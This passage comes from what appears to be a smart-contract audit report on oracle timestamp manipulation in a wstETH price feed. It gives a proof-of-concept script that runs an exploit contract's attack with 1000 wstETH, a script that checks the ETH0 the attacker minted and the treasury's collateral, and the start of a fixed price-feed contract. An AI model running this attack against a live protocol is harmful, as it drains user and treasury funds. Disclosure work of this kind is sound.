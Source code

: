 2) Test the Oracle Manipulation:


```solidity
// Test script
async function testExploit() {
    const exploit = await ethers.getContractAt("ETH0OracleExploit", EXPLOIT_ADDRESS);
    


    // Verify oracle timestamp manipulation
    const timestamp = await exploit.testOracleTimestamp();
    console.log("Oracle timestamp:", timestamp.toString());
    console.log("Block timestamp:", (await ethers.provider.getBlock("latest")).timestamp);
   

    // Execute attack with 1000 wstETH
    const amount = ethers.utils.parseEther("1000");
    await exploit.executeAttack(amount);
}

```

```solidity 
// Verification script
async function verifyImpact() {
    const daoCollateral = await ethers.getContractAt("IDaoCollateral", DAO_COLLATERAL_ADDRESS);
    const eth0 = await ethers.getContractAt("IERC20", ETH0_ADDRESS);
    
    // Check ETH0 balance of attacker
    const balance = await eth0.balanceOf(EXPLOIT_ADDRESS);
    console.log("ETH0 minted:", ethers.utils.formatEther(balance));
    
    // Check protocol's collateralization
    const treasury = await daoCollateral.treasury();
    const wstETH = await ethers.getContractAt("IERC20", WSTETH_ADDRESS);
    const collateral = await wstETH.balanceOf(treasury);
    console.log("wstETH in treasury:", ethers.utils.formatEther(collateral));
}
```

### Mitigation

Here is the mitigation in code:

```solidity // SPDX-License-Identifier: Apache-2.0
pragma solidity 0.8.20;

import {AggregatorV3Interface} from "src/interfaces/oracles/AggregatorV3Interface.sol";
import {IWstETH} from "src/interfaces/IWstETH.sol";

/**
 * @title Fixed LidoProxyWstETHPriceFeed
 * @notice Fixed implementation that properly tracks last update time and validates price data
 */
contract LidoProxyWstETHPriceFeed is AggregatorV3Interface {
    error InvalidDecimalsNumber();
    error StalePrice();
    error InvalidPrice();

    address public immutable WST_ETH_CONTRACT;
    uint8 public constant PRICE_FEED_DECIMALS = 18;
    
    // Added storage variables for proper timestamp tracking
    uint256 public lastUpdateTimestamp;
    uint256 public constant MAX_PRICE_DELAY = 1 hours;
    int256 public lastPrice;
```